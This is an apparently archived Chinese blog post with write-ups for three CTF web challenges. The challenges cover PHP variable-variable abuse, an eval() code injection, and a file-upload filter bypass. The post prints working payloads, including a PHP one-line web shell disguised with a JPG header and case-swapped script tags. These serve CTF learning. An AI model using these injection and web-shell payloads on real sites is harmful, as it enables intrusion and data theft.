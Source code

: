 <!--yml
category: 未分类
date: 2022-04-26 14:17:56
-->

# i春秋CTF-WEB题解(一)_ 晓德的博客-CSDN博客_ctf题解

> 来源：[https://blog.csdn.net/weixin_42271850/article/details/107139184](https://blog.csdn.net/weixin_42271850/article/details/107139184)

## 简述

        这次转到了i春秋平台上面练习，和之前一样也是每3道题目就写一篇题解来作为记录。

### 一、爆破-1（百度杯CTF比赛 2017 二月场）

![在这里插入图片描述](img/1aa9738fc1103f723e2cb089a48c236b.png)

> 题目给的提示是：flag就在某六位变量中，打开题目的链接，能得到一段PHP代码。

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>

大致代码解析如下:
引入包含"flag.php"
从请求的变量hello中取值并赋值到变量a中
对变量a的值做一个正则匹配，只允许传入正常的一些字母和数字。
然后会打印出$a。这里说明a的值需要是一个变量名才行。
结合题目的提示，应该flag是在一个变量的值，需要我们传入对应的变量名然后打印出来。 
```

> 从上面的代码分析，我们知道了现在需要的就是猜出flag所在的变量名。虽然题目叫做**爆破-1**但是通过爆破的方式肯定不现实的。因为这需要遍历36的6次方。所以我们先尝试输入写内容，看看实际的返回。

```
(1)随便输入一个?hello=123,可以看到页面没变化，这时因为没有123这个变量
(2)看代码我们知道肯定有个a变量，输入?hello=a，看到打印出string(1) "a"
(3)其实说到PHP的变量，我们很容易就能联想到全局变量，因为这个名字是固定的
输入?hello=GLOBALS，能看到打印出全局变量，其中就有flag。 
```

![在这里插入图片描述](img/2f6746c0fd1391fa0fc2877c9d6bf10d.png)

### 二、爆破-2（百度杯CTF比赛 2017 二月场）

![在这里插入图片描述](img/7440da70c315e361166a93dbbe4278a6.png)

> 题目提示flag不在变量中，打开题目链接，也是一段PHP代码。

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);

大致代码解析如下:
引入包含"flag.php"
从请求的变量hello中取值并赋值到变量a中
然后回执行打印a变量
可以看到这个和之前的区别在于之前是$$a,现在是$a
有一定代码审计基础的，都很容易能看出来这里存在一个注入的点。
可以通过$a闭合前面的执行语句，然后加入我们想要执行的代码。 
```

```
现在我们需要构造相关参数来闭合前面的括号，执行我们传入的代码。
搜先输入 1); 闭合前面的括号，输入 var_dump(1 闭合后面的内容 
中间输入我们自己的代码 show_source("flag.php")
拼接起来 ?hello=1);show_source("flag.php");var_dump(1
就能看到在页面中展示了flag.php的文档内容 
```

![在这里插入图片描述](img/ced05459412e419fc32cc9e7905c7a74.png)

### 三、Upload（百度杯CTF比赛 九月场）

![在这里插入图片描述](img/fa46cb7017c27d2e08a95f90ec4a96b3.png)

> 看题目名字应该是一道文件上传的题目，提示中有写flag在flag.php中。打开题目地址就是个文件上传的页面。

![在这里插入图片描述](img/ec2de42af00b3ff596be29a00d8211cc.png)
        首先上传一张普通的图片，看一下有什么返回。

![在这里插入图片描述](img/24a3e0070fb61c730886ff41e812b3b1.png)
        可以看到普通的jpg格式图片是可以上传的，上传成功后会返回提示和一个链接，/u/logo.jpg。看回显的链接可以看到是将我们上传的内容放到了/u/目录下，名字也是没有另外随机命名的。尝试一下上传PHP的一句话木马。

![在这里插入图片描述](img/1ecd6b643d329d7a7dedfc87a3447001.png)
        上传一句话木马的时候没有回显文件上传成功，证明被拦截了。一般文件上传题，需要注意的是上面这几点：1）文件名后缀 2）文件类型 3）文件头 4）文件内容。我们一个个改。

```
首先将文件名改为web_shell.jpg，没有显示文件上传成功。
然后将Contetn-Type改为image/jpeg，没有显示文件上传成功。
然后在重新制作一个图片马，在前面加入jpg的文件头
JPG ：FF D8 FF E0 00 10 4A 46 49 46 0D 0A
然后发现上传成功了。 
```

![在这里插入图片描述](img/1c562b4500e1939e8fdcb5e1e6481753.png)

```
但是在访问的时候，页面返回ÿØÿàJFIF @eval($_POST['key']);?>
可以很清楚看到少了 <?php ，应该是被过滤了
然后一句话改成<script language="php"> @eval($_POST['key']); </script>
然后访问页面查看源代码的时候，发现php被过滤了，然后将php改成PhP大小写绕过。
访问的时候可以看到文件内容没有返回，我们传入的内容应该是别当作php来执行了。
但是尝试?key=phpinfo()的时候，确没有返回phpinfo()页面。
我们尝试直接在上传的文件中写入读取flag.php的相关代码。

??JFIF
<script language="Php">
$a = "../flag.p";
$b = "hp";
file_get_contents($a.$b);
</script>
使用字符拼接的方式来绕过php的过滤，访问页面看到也是没直接回显。
但是右键查看源代码可以看到flag。 
```

![在这里插入图片描述](img/8aa1f80e50695445874635f8c3d677a7.png)